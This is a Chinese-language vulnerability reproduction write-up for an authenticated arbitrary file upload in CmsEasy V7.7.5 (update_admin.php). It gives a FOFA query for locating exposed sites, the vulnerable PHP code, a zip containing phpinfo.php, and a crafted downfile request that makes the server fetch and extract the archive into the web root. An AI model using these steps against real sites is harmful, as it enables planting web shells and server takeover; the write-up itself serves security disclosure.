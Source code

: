 # CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## FOFA

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313234956895.png)

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313234958829.png)

存在漏洞的文件为 **lib/admin/update_admin.php**

![img](../../../.vuepress/public/img/1632745397516-acc4d6fe-182d-4a3a-87f3-8d9b8299e81d.png)

其中需要注意的代码为

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![img](../../../.vuepress/public/img/1632746012776-5f9a2330-5289-4b8c-81c7-6f0a3a452979.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```php
zip phpinfo.zip phpinfo.php
```

构造下载请求

![img](../../../.vuepress/public/img/1632746461754-efd8a8a5-d455-4ccd-b194-a8716a206640.png)

```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![img](../../../.vuepress/public/img/1632746383961-7f2d63fc-2480-4604-8646-446503f857c6.png)

![img](../../../.vuepress/public/img/1632746435271-559c0cc2-38a7-4a8d-a24a-b6fd48180482.png)
